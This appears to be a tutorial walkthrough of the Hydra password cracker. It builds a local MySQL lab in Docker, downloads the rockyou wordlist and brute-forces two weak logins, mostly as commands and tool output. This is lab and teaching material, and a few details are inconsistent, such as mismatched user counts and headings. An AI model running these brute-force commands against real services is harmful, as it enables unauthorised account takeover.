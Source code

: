 ```yaml
---
layout: default
title: "Hydra Walkthrough"
date: 2024-07-17 12:00:00
---
```


# Hydra Walkthrough

Hydra is a powerful network logon cracker that supports numerous protocols, enabling security professionals to test the strength of passwords by performing brute-force attacks. It is widely used for network security testing, helping to identify weak passwords on various services such as FTP, HTTP, SMTP, and more.

## Installation

```bash
# Linux
apt-get install hydra

# MacOS
brew install hydra
```

Validate installation by running:

```bash
hydra -h
```

## Prepare attack target - MySQL database

### Create `init.sql`

```sql
-- Create additional users
CREATE USER 'user1'@'%' IDENTIFIED BY 'password12345';

-- Grant privileges
GRANT ALL PRIVILEGES ON db.* TO 'user1'@'%';

GRANT SELECT ON mysql.user TO 'user'@'%';


-- Flush privileges to ensure that all changes take effect
FLUSH PRIVILEGES;
```

### Create `docker-compose.yml`

```yaml
version: "3.8"

services:
  db:
    image: mysql:latest
    container_name: mysql_db
    environment:
      MYSQL_ROOT_PASSWORD: rootpassword
      MYSQL_DATABASE: db
      MYSQL_USER: user
      MYSQL_PASSWORD: password
    volumes:
      - db_data:/var/lib/mysql
      - ./init.sql:/docker-entrypoint-initdb.d/init.sql
    ports:
      - "3306:3306"

volumes:
  db_data:
```

Run MySQL database in Docker container:

```bash
docker-compose up -d
```

Install MySQL client:

```bash
# Linux
apt-get install mysql-client

# MacOS
brew install mysql-client
```

Connect to MySQL database:

```bash
╰─ sudo mysql -h 127.0.0.1 -P 3306 -u user -p

Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 8.3.0 MySQL Community Server - GPL

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>

```

List all user

```sql
SELECT User, Host FROM mysql.user;
```

You should see

```
+------------------+-----------+
| User             | Host      |
+------------------+-----------+
| root             | %         |
| user             | %         |
| user1            | %         |
| user2            | %         |
| mysql.infoschema | localhost |
| mysql.session    | localhost |
| mysql.sys        | localhost |
| root             | localhost |
+------------------+-----------+
8 rows in set (0.01 sec)
```

## Prepare attack data

Check usernames.txt file:

```txt
user
user1
user2
```

Download rockyou.txt dictionary:

```bash
#bin/sh

# Download rockyou.txt dictionary
wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz

# Extract rockyou.txt dictionary
tar -xvf rockyou.txt.tar.gz

# Rename rockyou.txt to passwords.txt
mv rockyou.txt passwords.txt

# Remove rockyou.txt.tar.gz
rm rockyou.txt.tar.gz
```

```bash
# Download
./download_rockyou.txt
```

## Attack MySQL database

```bash
hydra -L usernames.txt -P passwords.txt -s 3306 localhost mysql
```

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-13 12:01:24
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 28688796 login tries (l:2/p:14344398), ~7172199 tries per task
[DATA] attacking mysql://localhost:3306/
```

### password

```bash
[3306][mysql] host: localhost   login: user   password: password
```

### password1234

```bash
[3306][mysql] host: localhost   login: user1   password: password12345
[STATUS] attack finished for localhost (waiting for children to complete tests)
1 of 1 target successfully completed, 2 valid passwords found
```
